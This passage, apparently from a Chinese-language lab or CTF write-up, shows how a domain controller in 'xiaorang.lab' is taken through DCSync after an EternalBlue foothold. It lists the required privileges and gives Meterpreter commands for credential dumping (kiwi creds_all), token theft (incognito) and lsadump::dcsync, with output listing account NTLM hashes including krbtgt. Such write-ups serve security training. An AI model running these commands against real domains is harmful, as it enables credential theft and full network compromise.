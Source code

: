 ### Dsync 攻击拿下域控

```plain
DCSync 攻击前提
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

•Administrators 组内的用户
•Domain Admins 组内的用户
•Enterprise Admins 组内的用户
•域控制器的计算机帐户

即：默认情况下域管理员组具有该权限。
机器拥有机器有 DCSync 的权限，
```

利用`proxychains` + `msfconsole`拿下永恒之蓝主机  
收集 Windows 的`凭据`

```plain
## 获取凭据
load kiwi
creds_all

# 令牌偷取
load incognito
list_tokens -u
```

[![](assets/1709193375-5548a24194323fbb2805e9bb8122fb6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205401-47a9e594-d56f-1.png)

`DCSync`获取域控

```plain
meterpreter > kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   edc506302bf9b040febfb84a1459c0e8        532480
1104    XIAORANG-OA01$  673ec2d0ad2f73341c4b3e1fc2fbade5        4096
```